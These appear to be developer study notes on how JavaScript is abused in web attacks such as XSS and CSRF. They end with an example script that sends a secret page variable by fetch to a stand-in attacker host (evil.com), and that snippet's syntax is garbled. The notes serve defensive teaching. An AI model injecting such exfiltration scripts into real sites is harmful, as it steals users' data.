 > [!motivation] Understanding JavaScript's Role in Web Exploits
> 
> JavaScript, a client-side programming language, is a **powerful tool for creating interactive web experiences**. However, its versatility and browser support also make it a **prime target for attackers seeking to exploit web applications**. 
>
> By understanding how JavaScript can be misused, developers can better protect their applications from common vulnerabilities like **Cross-Site Scripting (XSS) and Cross-Site Request Forgery (CSRF)**. 

> [!idea] JavaScript: A Double-Edged Sword
> 
> JavaScript is a **scripting language that runs in the user's web browser**, allowing for dynamic and interactive web pages. It can **manipulate the DOM**, **make HTTP requests**, and **access cookies and local storage**.
>
> While these capabilities enable rich web experiences, they can also be abused by attackers. Malicious JavaScript code injected into a web page can **steal sensitive data**, **hijack user sessions**, or perform unauthorized actions on behalf of the user. 
>

> [!example] A Simple JavaScript Exploit
>
>![[JS Exploit Example.png|800]]

> [!example] A Simple JavaScript Exploit
>
>![[JS Exploit Example 2.png|800]]

> [!example] A Simple JavaScript Exploit
>
>```js
><script> int secret=42; </script>
>...
><script> fetch('https://evil.com/receive',  {method, 'POST', body: secret})</script>
>```
>
>Suppose the server returns some HTML with a secret JavaScript variable. If the attacker could somehow add the second script, the browser will send a POST request to the attacker's server with the secret!

